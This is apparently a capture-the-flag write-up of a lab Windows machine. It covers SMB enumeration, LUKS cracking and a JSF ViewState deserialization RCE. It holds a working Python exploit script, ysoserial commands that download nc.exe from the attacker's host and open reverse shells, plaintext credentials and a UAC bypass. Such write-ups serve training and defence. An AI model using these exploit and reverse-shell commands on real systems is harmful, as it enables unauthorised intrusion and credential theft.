## 1. Reconnaissance

### 1.1 Nmap

An Nmap scan identified an IIS web server on port 80, an Apache Tomcat server on port 8080, and SMB/RPC services.



### 1.2 SMB Enumeration

Anonymous RPC access was denied. SMB guest authentication, however, was permitted. Enumerating shares revealed a readable share named `BatShare` with the remark "Master Wayne's secrets".




---

## 2. Recovering the Backup Image

### 2.1 Extracting BatShare

Browsing `BatShare` revealed a single archive, `appserver.zip`.



```bash
mkdir smb && cd smb
smbclient //10.129.228.116/BatShare -U "" -c "prompt OFF; recurse ON; mget *"
```

`exiftool` confirmed the archive was created in December 2018 and contained a file named `IMPORTANT.txt`.



### 2.2 Identifying the LUKS Image

Unzipping the archive produced `IMPORTANT.txt` and `backup.img`. The `file` command identified the image as a LUKS-encrypted volume.



### 2.3 Cracking the LUKS Password

`bruteforce-luks` was run with `rockyou.txt` to recover the passphrase:

```bash
bruteforce-luks -f /usr/share/wordlists/rockyou.txt backup.img
```



The password was recovered: `batmanforever`.

### 2.4 Mounting the Image

```bash
sudo cryptsetup open --type luks backup.img file_dump
sudo mount /dev/mapper/file_dump /mnt
```

The mounted image contained a `Mask/tomcat-stuff` directory — notable given the Tomcat service identified during recon.



---

## 3. Initial Foothold — JSF Deserialization RCE

### 3.1 Web Application Enumeration

Port 80 served a default IIS page. Port 8080 hosted a "Mask Inc." application whose only functional endpoint was `/userSubscribe.faces` — the `.faces` extension indicating use of the JavaServer Faces (JSF) framework.





### 3.2 Recovering the JSF Secret Key

The `web.xml.bak` file recovered from the LUKS image revealed two key configuration details: the application used **server-side** ViewState saving, and the `org.apache.myfaces.SECRET` value was set to `SnNGOTg3Ni0=`.



Server-side ViewState with a known HMAC secret is exploitable via JSF deserialization, as documented [here](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html). The attack requires crafting a malicious serialized payload, encrypting it with the recovered key, and submitting it as the `javax.faces.ViewState` parameter.

### 3.3 Building the Payload with ysoserial

[<u>ysoserial</u>](https://github.com/frohoff/ysoserial) was used to generate a `CommonsCollections5` payload. ysoserial requires JDK 8; SDKMAN was used for a clean installation:

```bash
curl -s "https://get.sdkman.io" | bash
source "$HOME/.sdkman/bin/sdkman-init.sh"
sdk install java 8.0.492-tem
~/.sdkman/candidates/java/8.0.492-tem/bin/java -jar ysoserial-all.jar \
  CommonsCollections5 'cmd.exe /c ping -n 4 10.10.14.224' > payload.bin
```




The payload was then encoded and transmitted using a Python 3 script that extracts the current ViewState, encrypts the payload binary with DES using the recovered secret key, appends an HMAC-SHA1, and POSTs the result to the subscription endpoint.

Writing the script myself was proving incredibly frustrating so I was able to find a python2 script that did the same thing and convert it to python using the `2to3-2.7` tool in kali. After some refinements I ended up with this working script

```python
#!/usr/bin/python
from requests import post, get
from bs4 import BeautifulSoup
import sys
from urllib.parse import urlencode, quote_plus
import pyDes
import base64
import hmac
from hashlib import sha1

url = 'http://10.129.228.116:8080/userSubscribe.faces'

# Finding if viewState exists or not
def getViewState():
    try:
        request = get(url)
    except:
        print("Can't connect to the server")
        sys.exit()
    soup = BeautifulSoup(request.text, 'html.parser')
    viewState = soup.find('input', id='javax.faces.ViewState')['value']
    return viewState

# Creating a payload for commons-collections 3.1 from https://github.com/frohoff/ysoserial
def getPayload():
    payload = open('payload.bin', 'rb').read()
    return payload.strip()

def exploit():
    viewState = getViewState()
    if viewState is None:
        print("No viewState found")
    else:
        print("Viewstate found: {}".format(viewState))
    payload = getPayload()
    key = base64.b64decode('SnNGOTg3Ni0=') # The secret key
    obj = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
    enc = obj.encrypt(payload) # Encrypting with DES from https://wiki.apache.org/myfaces/Secure_Your_Application
    hash_val = (hmac.new(key, bytes(enc), sha1).digest()) # Calculating hmac
    payload = enc + hash_val
    payload_b64 = base64.b64encode(payload) # Creating final payload
    print("\n\n\nSending encoded payload: " + str(payload_b64))

    headers = {
        "Accept":
        "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Connection": "keep-alive",
        "User-Agent": "Tomcat RCE",
        "Content-Type": "application/x-www-form-urlencoded"}

    execute = {'javax.faces.ViewState': payload_b64}
    r = post(url, headers=headers, data=execute)

if __name__ == '__main__':
    exploit()
```

### 3.4 Confirming Code Execution

ICMP responses from the target confirmed the ping payload executed successfully.



### 3.5 Obtaining a Shell

The payload was updated to download `nc.exe` from a local HTTP server and connect back:

```bash
java -jar ysoserial-all.jar CommonsCollections5 \
  'powershell wget 10.10.14.224/nc.exe -O /Windows/temp/nc.exe; \
   cmd.exe /c /Windows/temp/nc.exe 10.10.14.224 8080 -e powershell.exe' > payload.bin
```

A reverse shell was caught as **alfred**.



---

## 4. Lateral Movement — alfred → batman

### 4.1 Recovering the Outlook OST File

Manual enumeration of alfred's home directory revealed a `backup.zip` in `C:\Users\Alfred\Downloads\backups`.



The file was transferred to the attack host via an impacket SMB server (required due to the target enforcing SMBv2 and authentication):

```bash
# host machine
impacket-smbserver -smb2support -username ween -password ween share .

# target machine
net use \\10.10.14.224\share /u:ween ween
copy backup.zip \\10.10.14.224\share\
```

Unzipping the archive produced `alfred@arkham.local.ost` — an Outlook OST (offline mail store) file. The `readpst` tool was used to extract its contents:



### 4.2 Extracting batman's Password

`readpst` produced a single file, `Drafts.mbox`, which contained a draft email with a base64-encoded image attachment.



Decoding the base64 blob revealed an image containing batman's plaintext password.

```bash
echo "" | base64 -d > image001.png
```



The credential was confirmed via SMB authentication.



### 4.3 Shell as batman

batman lacked write access to `C$`, ruling out PSExec, and WinRM was not available. A credential object was constructed in the existing PowerShell session. Initially tried using a `runas` method, but the shell was too unstable. Instead, I opted to use `Invoke-Command` and execute a reverse shell as batman directly:

```powershell
$pass = convertto-securestring 'Zx^#QZX+T!123' -asplain -force
$cred = new-object system.management.automation.pscredential('arkham\batman', $pass)
cd /tomcat/apache-tomcat-8.5.37/bin
wget 10.10.14.224/nc.exe -O nc.exe
Invoke-Command -ComputerName Arkham -Credential $cred -ScriptBlock {C:\tomcat\apache-tomcat-8.5.37\bin\nc.exe -e cmd.exe 10.10.14.224 9001}
```



---

## 5. Privilege Escalation

### 5.1 batman's Privileges

batman was confirmed to be a member of the local `Administrators` group but could not directly access `C:\Users\Administrator` — a UAC-related filesystem restriction that applies even to administrator-level accounts in standard interactive sessions.



### 5.2 Bypassing UAC via UNC Self-Reference

Mounting the `C$` admin share by connecting to the machine's own public IP sidesteps the local UAC restriction, since the resulting network session authenticates as a full administrator:

```powershell
net use s: \\10.129.228.116\c$
s:
type /Users/Administrator/Desktop/root.txt
```



---

## 6. Summary

| Stage | Technique |
|---|---|
| Recon | Nmap identified IIS (80), Tomcat (8080), and SMB |
| Enumeration | Guest SMB access revealed `BatShare` containing `appserver.zip` |
| Credential Recovery | `appserver.zip` held a LUKS image; `bruteforce-luks` recovered the passphrase `batmanforever`; mounted image contained `web.xml.bak` with the JSF HMAC secret |
| Initial Access | JSF ViewState deserialization via `ysoserial` + custom Python exploit → reverse shell as **alfred** |
| Lateral Movement | `backup.zip` in alfred's home contained an Outlook OST file; `readpst` extracted a draft email with batman's plaintext password embedded in a base64 image |
| Privilege Escalation | batman's `Administrators` group membership + UNC self-reference (`\\<own IP>\c$`) bypassed the local UAC filesystem restriction → root flag |

### Key Takeaways
- Exposed SMB shares accessible to guest accounts remain a reliable source of sensitive files and credentials, even on otherwise well-hardened hosts.
- Storing a JSF HMAC secret in a backup file — or using a weak, guessable secret at all — turns any ViewState deserialization gadget chain into a trivial RCE.
- Sensitive data embedded in email attachments (especially inside Outlook OST/PST files) is a common lateral movement vector that is frequently overlooked during incident response and hardening reviews.
- Members of the local `Administrators` group can bypass UAC filesystem restrictions by authenticating to the machine's own `C$` share over the network, which grants a full administrative token without UAC filtering.
